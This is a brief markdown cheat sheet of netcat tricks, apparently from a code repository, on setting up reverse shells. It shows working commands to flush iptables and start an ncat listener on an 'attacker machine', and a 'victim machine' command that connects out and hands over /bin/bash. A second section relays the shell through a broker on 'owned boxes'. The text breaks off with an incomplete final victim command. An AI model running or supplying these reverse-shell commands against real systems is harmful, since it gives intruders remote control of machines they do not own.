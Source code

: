 ```yaml
---
title: "netcat tricks"
---
```


### Basic use of Netcat + CentOS Firewall Rules

For **direct reverse shell**:

```
|attacker machine|<------>|victim machine|
```

On "attackers machine" (vps, infra, blackhole), drop all iptables rules (dirty), and setup a connection listener:

```
$ sudo iptables -F
$ sudo ncat -nlvp 9999
```

On "victim machine" (target), connect to netcat listener:

```
$ ncat x.x.x.x 9999 -e /bin/bash
```

You should have a working remote shell n0w.

For **probe direct reverse shell**:

```
|attacker machine|<------>|attacker box|<------->|victime machine|
```

On "attackers box" (blackhole and/or owned boxes), drop all iptables rules (dirty), and setup a connection broker.

```
$ sudo iptables -F # => important!
$ sudo ncat --broker 9999 # => creates a broker for probing
```

On "attackers machine" (*see above*):

```
$ sudo ncat [attacker box] 9999
```

On "victim machine":

```
$ sudo ncat
```
